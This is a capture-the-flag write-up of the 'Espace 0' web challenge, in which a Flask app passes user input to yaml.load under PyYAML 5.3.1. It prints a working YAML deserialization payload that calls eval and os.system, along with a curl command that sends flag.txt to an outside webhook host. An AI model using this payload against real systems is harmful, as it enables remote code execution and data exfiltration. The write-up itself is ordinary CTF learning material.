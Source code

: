 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-21T21:29
---
```


## Espace 0

The hardest challenge of the web category, but was actually solved before Login Part 0 since my brain was dead

> You've used espace2, but what about espace0?
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4210/

As before the source, `main.py` was given

```python
from flask import Flask, request, render_template, Response
import yaml

app = Flask(__name__)
assert yaml.__version__ == "5.3.1"

@app.route("/")
def index():
    return render_template("./index.html")
    
@app.route("/", methods=["POST"])
def welcome():
    student_data = request.form.get("student_data")
    if not student_data:
        return Response("Please specify some data in YAML format", mimetype='text/plain')
    student_data = yaml.load(student_data)
    required_fields = ["id","name","class"]
    if type(student_data) != dict or "student" not in student_data or any(x not in student_data["student"] for x in required_fields):
        return Response("Malformed data. Please try again.", mimetype='text/plain')
    student = student_data["student"]
    return f"<h1>Welcome, {student['name']} ({student['id']})</h1> <br>Your class is <b>{student['class']}</b>"
```

There are no obvious vulunerabilities to this file.

But the `assert yaml.__version__ == "5.3.1"` part is quite suspicious.

A quite google search with keywords `pyyaml 5.3.1 vulnerabilities` leads us to `https://security.snyk.io/vuln/SNYK-PYTHON-PYYAML-590151`, a 9.8 scored RCE.

Conviniently a `uiuctf` writeup was included that explained how the exploit worked. https://hackmd.io/@harrier/uiuctf20

Apparently it was a zero day vulunrability used in a CTF, what a chad move. We can simply take their payload and use it here as google is allowed in CTFs.

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'PAYLOAD_HERE' ]]]`

### Sending the payload

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("os").system("curl -X POST --data-binary @flag.txt https://webhook.site")' ]]]`

![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221164628024.png)

And after checking webhook.site for the recieved curl request

```
flag{yet_another_mal-coded_library}
```

Flag obtained
